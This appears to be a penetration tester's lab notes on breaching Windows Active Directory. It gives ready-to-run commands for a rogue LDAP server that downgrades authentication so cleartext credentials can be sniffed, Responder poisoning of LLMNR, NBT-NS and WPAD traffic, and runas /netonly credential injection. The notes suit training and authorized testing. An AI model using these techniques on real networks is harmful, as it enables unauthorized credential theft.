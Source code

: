 # Setup an LDAP server
`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`
`sudo dpkg-reconfigure -p low slapd`
*Omit OpenLDAP server configuration -> No*
*DNS domain name,Organisation name -> Attacking.domain.com*
*Provide admin pass*
*Remove when purged -> No*
*Move old Database-> yes*

# Make our server to only support PLAIN and LOGIN authentication methods
*Create a file with name -> olcSaslSecProps.ldif*
*Write that in file*
`
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
`
`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`*Configure*
`sudo tcpdump -SX -i eth0 tcp port 389`*Capture traffic on ldap server and check the credentials*


# Responder
Responder will attempt to poison any  Link-Local Multicast Name Resolution (LLMNR),  NetBIOS Name Service (NBT-NS), and Web Proxy Auto-Discovery (WPAD) requests that are detected. On large Windows networks, hosts can first attempt to determine if the host they are looking for is on the same local network by sending out LLMNR requests and seeing if any hosts respond.Responder will actively listen to the requests and send poisoned responses telling the requesting host that our IP is associated with the requested hostname. In the same line, it starts to host several servers such as SMB, HTTP, SQL, and others to capture these requests and force authentication. 
`sudo responder -I tun0`

# PXE Boot - LAPS (https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/)

# Enumeration with Seatbelt (https://github.com/GhostPack/Seatbelt)

# Runas (not domain joined )
When the PC is not joined to the domain and we have AD credentials we can use Runas to inject the credentials into memory.So commands executed locally on the computer will run in the context of your standard Windows account, but any network connections will occur using the domain account specified. 
`runas.exe /netonly /user:<domain>\<username> cmd.exe`
